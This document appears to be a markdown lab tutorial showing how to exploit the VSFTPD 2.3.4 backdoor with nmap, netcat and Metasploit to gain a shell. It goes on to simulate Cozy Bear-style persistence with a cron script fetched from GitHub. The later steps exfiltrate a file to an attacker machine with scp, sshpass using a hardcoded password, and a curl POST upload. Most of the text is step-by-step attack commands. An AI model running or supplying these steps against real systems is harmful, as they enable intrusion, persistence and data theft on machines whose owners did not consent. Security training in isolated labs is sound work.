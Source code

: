 ## Metasplot Demo

In this tutorial, we will demonstrate how to use Metasploit to exploit a vulnerable VSFTPD server. The steps outlined below correspond to the commands provided, and we'll go through each one in order.

### 1. Scan the target with nmap:

Before starting the exploit, it's essential to gather information about the target. Use nmap to scan the target IP (192.168.101.54) for open ports and services:

```
nmap 192.168.101.54
```

If the scan results show that port 21 (FTP) is open, you can proceed to the next step.

### 2. Connect to the FTP service using netcat:

Use the following command to connect to the target IP's FTP service and check if it is running a vulnerable version of VSFTPD:

```
nc 192.168.101.54 21
```

If you see a response indicating that VSFTPD 2.3.4 is running, continue to the next step.

### 3. Start Metasploit:

Launch the Metasploit console by running the following command:

```
msfconsole
```

### 4. Search for the VSFTPD exploit:

In the Metasploit console, search for the VSFTPD exploit by running:

```
search vsftp
```

The search results should show the exploit/unix/ftp/vsftpd_234_backdoor module.

### 5. Use the exploit module:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

### 6. List available payloads:

The command you provided, set payload 0, is incorrect. Instead, use the following command to list available payloads:

```
show payloads
```

Choose a payload from the list, such as cmd/unix/interact.

### 7. Set the payload:

```
set payload cmd/unix/interact
```

### 8. Show and set module options:

Use the following commands to show the module options, set the RHOSTS option, and verify the settings:

```
show options
```
```
set RHOSTS 192.168.101.54
```
```
show options
```

### 9. Run the exploit:

```
exploit
```

If the exploit is successful, you should receive a command shell on the target system.

### 10. Check the user context:

Run the following command to see the user context of the shell:

```
whoami
```

This will show the username of the account that the shell is running under.

### 11. Now we will demonstrate how Cozy Bear employs stealthy persistence techniques to maintain access to compromised systems. We will be focusing on creating a cron job that will execute a benign script at specified intervals or upon system startup.

Create a new file called create_cronjob.sh and copy the script content into it. Save the file and make it executable using chmod +x create_cronjob.sh.

```
http://raw.githubusercontent.com/jamesvthompson/demo/main/create_cronjob.sh
```
```
chmod +x create_cronjob.sh
```

Run the script with ./create_cronjob.sh. This will create the benign script (benign_cronjob.sh), make it executable, and set up a cron job to run it every minute.

```
sh create_cronjob.sh
```

Monitor the /tmp/cronjob.log file for updates by running cat /tmp/cronjob.log.

```
cat /tmp/cronjob.log
```
### 12. Now we will demonstrate data exfiltration from a compromised Linux system, simulating how Cozy Bear could extract sensitive information after gaining access to a target. 

Here's how to securely transfer a file using scp:

Make sure that the remote machine has an SSH server running and that you have the necessary credentials (username and password or key pair) to access it.

Use the scp command on the local machine to transfer the file. Replace <remote_user>, <remote_ip>, and <remote_directory> with the appropriate values for your setup:

```
scp /tmp/cronjob.log kali@192.168.101.51:/tmp/received_cronjob.log
```

sshpass -p 'kali' scp /tmp/cronjob.log kali@192.168.101.51:/tmp/received_cronjob.log

curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@/tmp/cronjob.log" http://192.168.101.51:8080/upload


For example, if the remote user is user1, the remote IP is 192.168.101.51, and you want to save the file in the /home/user1 directory:

The scp command will prompt you for the password if you're using password-based authentication or use the appropriate key pair if you're using key-based authentication. After successful authentication, the file will be securely transferred to the remote machine.
